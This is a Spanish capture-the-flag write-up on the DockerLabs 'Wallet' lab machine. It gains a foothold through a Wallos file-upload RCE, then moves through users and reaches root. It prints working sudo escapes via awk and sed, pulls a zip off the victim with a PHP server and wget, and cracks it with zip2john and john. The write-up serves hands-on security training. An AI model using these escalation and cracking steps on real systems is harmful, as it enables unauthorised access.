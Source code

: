 ```yaml
---
layout: single
title: Wallet - DockerLabs
excerpt: "Wallet es una máquina de dificultad media de la plataforma DockerLabs. En ella abusaremos de una versión desactualizada de wallos para ganar acceso a la máquina através de un Authenticated RCE. Nos moveremos lateralmente de usuarios extrayendo el hash de un archivo .zip para crackeralo con John. Finalmente abusaremos de un binario que puede ser ejecutado como root sin proporcionar contraseña para escalar al usuario root."
date: 2024-09-12
classes: wide
header:
  teaser: /assets/images/wallet/wallet.jpeg
  teaser_home_page: true
  icon: /assets/images/dl_logo.png
categories:
  - dockerlabs
  - linux
  - medium
tags:  
  - zip2john
  - RCE
  - Lateral Movement
---
```



## Enumeración

Iniciamos el proceso de enumeración ejecutando el siguiente comando con `nmap`:

```python
❯ nmap -p- --open --min-rate 5000 -n -Pn 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 13:50 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00013s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.63 seconds

```

Como vemos solo esta el puerto 80 abierto. Vamos a lanzar el siguiente scaneo de `nmap` sobre el puerto 80, esta vez con scripts básicos de `enumeración de servicios` y `versiones`:

```python
❯ nmap -sCV -p80 -Pn 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 13:54 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00023s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Wallet

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds

```

Echándole un ojo a la web no vemos nada interesante, pero mirando el código fuente vemos que hace referencia a un `subdominio`:

![Image 2](/assets/images/wallet/html_domain.png)

Lo añadimos a nuestro archivo `/etc/hosts` así como el dominio `wallet.dl`

Entrando al subdminio `panel.wallet.dl` vemos que nos carga un formulario para registrarnos, nos registramos y accedemos a una aplicación web llamada `wallos`. Wallos es una aplicación web open source destinada a gestionar tus finanzas de una manera más fácil y efectiva. En la sección `About and Credits` podemos ver la versión utilizada:

![Image 3](/assets/images/wallet/wallos.png)

## Intrusión

Si buscamos por vulnerabilidades de wallos, nos encontramos con un `Authenticated RCE` en versiones anteriores a la 1.11.2 ([Link al PoC](https://www.exploit-db.com/exploits/51924))

A la hora de crear una nueva suscripción, el usuario puedes subir una imagen/logo, pero el código no está sanitizado correctamente y un usuario mal intencionado puede fácilmente bypassear la comprobación y subir una "imagen" con código php.

![Image 4](/assets/images/wallet/burpsuite.png)

Nuestra shell se guarda en `images/uploads/logos/`, nos dirigimos allí y nos enviamos una reverse shell a nuestra máquina

![Image 5](/assets/images/wallet/webshell.png)

![Image 6](/assets/images/wallet/netcat.png)

## Escalada

Primero vamos a cambiarnos a una shell completamente interactiva de la siguiente manera:

```bash
script /dev/null -c bash
ctrl + z 
stty raw -echo;fg 
reset xterm
export TERM=xterm 
export SHELL=/bin/bash
stty rows 41 columns 184
```

Mirando el archivo `/etc/passwd` vemos que hay 2 usuarios, `Pylon` y `Mario`

![Image 7](/assets/images/wallet/users.png)

Con `sudo -l` vemos que podemos ejecutar el comando `awk` como pylon sin proporcionar contraseña 

![Image 8](/assets/images/wallet/sudo.png) 

```bash 
sudo -u pylon /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

Una vez estamos como Pylon, vemos que hay un comprimido `.zip`, al descomprimirlo nos pide una contraseña 

![Image 9](/assets/images/wallet/zip.png) 

Para extraer el hash y romperlo voy a usar `zip2john`, pero antes tengo que pasarme el archivo a mi máquina. La máquina víctima no tiene python, asi que usare `php` para exponer el archivo y descargarlo a mi máquina. 

```php
// Máquina víctima 
php -S 0.0.0.0:81
```

```php
// Mi máquina
wget http://172.17.0.2:81/secretitotraviesito.zip
```
Para extraer el hash y romperlo con john ejecuté los siguientes comandos:

```bash 
❯ zip2john secretitotraviesito.zip > hash
```

```python
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate1       (secretitotraviesito.zip/notitachingona.txt)     
1g 0:00:00:00 DONE (2024-09-10 20:27) 50.00g/s 819200p/s 819200c/s 819200C/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Descomprimimos el zip y el contenido es la contraseña para el usuario `pinguino`

![Image 10](/assets/images/wallet/pinguino.png)

El usuario `pinguino` puede ejcutar como cualquier usuario el comando sed sin proporcionar contraseña 

![Image 11](/assets/images/wallet/sudo_root.png)

```python 
sudo /usr/bin/sed -n '1e exec /bin/bash 1>&0' /etc/hosts
```

![Image 12](/assets/images/wallet/rooted.png)

